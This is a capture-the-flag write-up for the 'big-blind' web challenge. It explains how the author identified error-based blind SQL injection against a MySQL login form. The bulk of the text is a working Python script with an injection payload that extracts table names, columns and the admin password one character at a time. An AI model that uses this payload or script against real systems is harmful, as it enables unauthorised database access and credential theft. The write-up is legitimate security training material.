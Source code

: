 ##big-blind 136 solves / 444 points ##
## Description:
https://big-blind.hsc.tf
## Solution:

-From the title "Big Blind" I was fairly sure this was some kind of Blind Injection, probably SQL, but I didn't want to assume anything.
-Sending a single ' returned a 500 internal server error, backing up my theory that it was probably blind SQL injection.

-After trying a few different things, using the sleep function didn't return an error, but didn't seem to do anything.
I tried other waiting commands like WAITFOR DELAY '0:0:10', dbms_pipe.receive_message(('a'),10) and pg_sleep(10), however, all of these returned errors. 
This meant that it was probably either SQLlite or MySQL.

-I then tested GLOB, a function that is in SQLlite but not MySQL, this returned an error, suggesting that it was MySQL

-Because the database was MySQL, I knew that SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM 
information_schema.tables),'a') would trigger an error if true, and put it into a python script to attempt to expose 
the database's contents.

-I used the script to determine the tablename (users) from information_schema.tables, then determined the column names 
(user, pass) from information_schema.columns, and then finally enumerated the username and password (admin, the flag)

-The script is here, I modified it to make it run for each different function, and in this form it is configured for 
enumerating the flag, which was the last time I used it(sorry if its a bit messy):
```
import requests
url = "https://big-blind.hsc.tf/"
payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+TABLE_NAME+FROM+information_schema.tables+LIMIT+1),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
headers = {
  'Host': 'big-blind.hsc.tf',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Content-Type': 'application/x-www-form-urlencoded',
  'Content-Length': '166',
  'Origin': 'https://big-blind.hsc.tf',
  'Connection': 'close',
  'Referer': 'https://big-blind.hsc.tf/',
  'Upgrade-Insecure-Requests': '1'
}


lalph = list(map(chr, range(ord('a'), ord('z')+1)))
Ualph = list(map(chr, range(ord('A'), ord('Z')+1)))
nums = list(range(0,10))
blank = [""]
additionals = ["_","$","{","}"]
totalPos = blank+additionals+lalph+Ualph+nums
fullAlph = []
for val in totalPos:
    fullAlph.append(str(val))
end = False
thing = 0
dbNames= []
password = "flag"
maxi = 50
while thing < maxi:
    if(end==True):
        end=False
        print("Adding: "+password)
        dbNames+=[password]
        password=""
        
        thing+=1
    for Char in totalPos:
        Char = str(Char)
        reqH = payload
        payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+pass+FROM+users+WHERE+user='admin'+LIMIT+1+OFFSET+{}),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
        reqH = reqH.format(thing,len(password)+1,password+Char)
        #print(reqH)
        response = requests.request("POST", url, headers=headers, data=reqH)
        #print(response)
        if("<html lang" in str(response.content)):
            if(Char == ""):
                end=True
                break
            else:
                print(password+Char+"=True")
                password+=Char
                break
        else:
            print(password+Char+"=False")
       
    


print("Database Names: ")
for name in dbNames:
    print(str(name))
    
```    
## Flag:
flag{any_info_is_good_info}
